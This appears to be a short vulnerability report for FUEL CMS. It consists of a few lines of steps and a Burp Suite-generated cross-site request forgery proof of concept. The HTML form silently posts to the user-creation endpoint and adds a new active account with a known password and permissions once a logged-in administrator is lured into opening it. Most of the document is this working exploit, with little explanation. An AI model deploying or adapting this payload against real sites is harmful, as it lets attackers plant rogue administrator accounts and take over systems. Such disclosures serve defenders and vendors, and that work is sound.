



Log in as an administrator

Inducing the administrator to click on the link

success add an administrator.
  

POC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://123.x.x.x:8080/fuel/users/create/" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="user&#95;name" value="ergou" />
      <input type="hidden" name="email" value="1140820922@qq.com" />
      <input type="hidden" name="first&#95;name" value="kang" />
      <input type="hidden" name="last&#95;name" value="m3lon" />
      <input type="hidden" name="new&#95;password" value="ergou" />
      <input type="hidden" name="confirm&#95;password" value="ergou" />
      <input type="hidden" name="active" value="yes" />
      <input type="hidden" name="permissions&#95;exists" value="1" />
      <input type="hidden" name="Save" value="Save" />
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="language" value="" />
      <input type="hidden" name="exists&#95;permissions" value="1" />
      <input type="hidden" name="&#95;&#95;fuel&#95;module&#95;&#95;" value="users" />
      <input type="hidden" name="&#95;&#95;fuel&#95;module&#95;uri&#95;&#95;" value="users" />
      <input type="hidden" name="&#95;&#95;fuel&#95;id&#95;&#95;" value="" />
      <input type="hidden" name="&#95;&#95;fuel&#95;inline&#95;action&#95;&#95;" value="create" />
      <input type="hidden" name="&#95;&#95;fuel&#95;inline&#95;&#95;" value="0" />
      <input type="hidden" name="fuel&#95;inline" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```
